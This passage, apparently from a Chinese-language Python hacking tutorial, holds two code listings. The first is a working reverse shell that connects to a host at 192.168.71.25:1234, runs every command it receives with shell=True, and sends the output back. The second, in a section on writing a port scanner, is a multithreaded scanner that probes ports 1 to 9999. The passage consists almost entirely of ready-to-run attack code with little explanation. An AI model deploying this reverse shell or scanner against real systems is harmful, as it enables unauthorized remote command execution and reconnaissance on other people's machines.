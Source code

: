 ```python
import socket
import subprocess

#设置传输目标
host = '192.168.71.25'
port = 1234

#开启socket传输并建立连接
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

while True:
    cmd = s.recv(1024)	#接收指令
    try:
        try:
            result = subprocess.check_output(cmd.decode('utf-8'), stderr=subprocess.STDOUT, shell=True)
            s.sendall(result)	#发送执行指令的结果
        except Exception as e:
            s.sendall(str(e).encode('utf-8'))
    except Exception as e:
        print(str(e))
s.close()
```

### 6. 端口扫描编写

#### (1). 前提准备

1. Socket网络编程知识
2. 线程知识

#### (2). 编写思路

* 通过socket对象判断是否有内容返回 => 封装为单端口扫描 => 启动多线程，并分别调用单端口扫描

#### (3). 实例

```python
import socket
import threading

#通过信号量，限制最多同时运行5000个线程
thread_limit = threading.Semaphore(5000)
def singlePortScan(ip,port):
    with thread_limit:  #通过信号量进行限制，便于扫描多端口提速
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        result = s.connect_ex((ip,port))
        if result == 0:
            print(f'端口{port}已开放')
        s.close()
def multiPortScanThread(ip, thread):
    threads = []  # 用于保存所有线程
    for port in range(1, 10000):
        t = threading.Thread(target=singlePortScan, args=(ip, port))
        t.start()
        threads.append(t)
    # 等待所有线程完成
    for t in threads:
        t.join()
    print('端口扫描结束')

if __name__ == '__main__':
    singlePortScan('192.168.71.32',80)
```